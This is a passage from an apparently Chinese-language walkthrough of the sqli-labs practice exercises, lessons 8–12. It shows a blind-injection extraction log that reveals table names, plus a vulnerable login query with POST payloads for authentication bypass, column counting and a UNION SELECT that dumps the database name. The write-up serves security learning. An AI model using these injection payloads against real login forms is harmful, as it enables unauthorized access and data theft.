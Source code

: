 ```python
    print(res)
```

>e
>em
>ema
>emai
>email
>emails
>emails,
>emails,r
>emails,re
>emails,ref
>emails,refe
>emails,refer
>emails,refere
>emails,referer
>emails,referers
>emails,referers,
>emails,referers,u
>emails,referers,ua
>emails,referers,uag
>emails,referers,uage
>emails,referers,uagen
>emails,referers,uagent
>emails,referers,uagents
>emails,referers,uagents,
>emails,referers,uagents,u
>emails,referers,uagents,us
>emails,referers,uagents,use
>emails,referers,uagents,user
>emails,referers,uagents,users

### 09-Blind-Time based-Single Quotes

同上

### 10-Blind-Time based-Double Quotes

### 11-POST-Error based

```sql
SELECT username, password from users where username='$uname' and password='$passwd' LIMIT 0,1;
```

paylod: `uname=admin' and 1=1;--+&passwd=`

万能密码能过，后续爆数据就简单了

`uname=admin' order by 3;--+&passwd=` > `uname=admin' order by 3;--+&passwd=` 两个字段

`uname=xxxxx' union select database(),1;--+&passwd=` > 出库名 后续不继续演示

### 12-Error Based-Double quotes
